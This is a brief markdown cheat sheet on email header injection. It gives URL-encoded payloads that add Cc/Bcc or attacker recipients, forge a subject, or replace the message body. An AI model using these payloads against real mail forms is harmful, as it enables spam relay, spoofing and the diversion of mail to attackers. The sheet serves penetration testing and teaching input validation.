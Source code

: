 # Email Header Injection

[https://resources.infosecinstitute.com/email-injection/](https://resources.infosecinstitute.com/email-injection/)

## Inject Cc and Bcc after sender argument

```text
From:sender@domain.com%0ACc:recipient@domain.co,%0ABcc:recipient1@domain.com
```

The message will be sent to the recipient and recipient1 accounts.

## Inject argument

```text
From:sender@domain.com%0ATo:attacker@domain.com
```

The message will be sent to the original recipient and the attacker account.

## Inject Subject argument

```text
From:sender@domain.com%0ASubject:This’s%20Fake%20Subject
```

The fake subject will be added to the original subject and in some cases will replace it. It depends on the mail service behavior.

## Change the body of the message

Inject a two-line feed, then write your message to change the body of the message.

```text
From:sender@domain.com%0A%0AMy%20New%20%0Fake%20Message.
```

